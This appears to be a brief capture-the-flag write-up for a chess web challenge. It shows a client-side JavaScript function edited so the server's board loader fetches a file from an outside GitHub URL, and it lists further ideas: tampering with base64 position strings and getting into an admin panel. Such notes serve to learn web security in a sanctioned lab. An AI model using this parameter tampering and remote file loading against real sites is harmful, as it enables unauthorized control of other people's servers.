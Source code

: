 # Challenge 01

## Hint

A clean and fair game of chess. Careful though, this is not a game for grandmasters to win.

Hint: Don't make this game harder than it needs to be

https://hackerchess-web.h4ck.ctfcompetition.com/

-----

## Initial thoughts

- Use load_baseboard() to load a winning game position by using a url to a hosted fen file.

```javascript
// original
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'baseboard.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
  window.location.href = "index.php";
}

// edit
function load_baseboard() {
  const url = "load_board.php"
  let xhr = new XMLHttpRequest()
  const formData = new FormData();
  formData.append('filename', 'https://raw.githubusercontent.com/jc190/h4ck1ng-google-progress/master/EP000/Challenge-01/s-mate.fen')

  xhr.open('POST', url, true)
  xhr.send(formData);
}
```
- Manipulate the base64 string for positions

- Log into admin panel

